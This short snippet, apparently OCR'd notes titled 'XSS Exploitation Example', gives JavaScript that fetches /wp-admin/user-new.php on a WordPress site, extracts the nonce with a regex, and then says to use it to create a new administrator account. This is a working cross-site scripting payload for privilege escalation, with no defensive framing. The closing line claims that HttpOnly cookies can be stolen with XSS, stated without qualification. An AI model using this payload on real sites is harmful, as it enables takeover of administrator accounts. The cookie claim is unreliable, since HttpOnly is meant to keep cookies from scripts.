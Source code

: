 

**XSS Exploitation Example**
- Grabbing a nonce value from /wp-admin/user-new.php
	- var ajaxRequest = new XMLHttpRequest(); 
	- var requestURL = "/wp-admin/user-new.php"; 
	- var nonceRegex = /ser" value="(\[^"]\*?)"/g; 
	- ajaxRequest.open("GET", requestURL, false); 
	- ajaxRequest.send(); 
	- var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); 
	- var nonce = nonceMatch\[1];
- Then, use that `nonce` variable with /wp-admin/user-new.php to create a new administrator


Cookies with HttpOnly can be stolen with XSS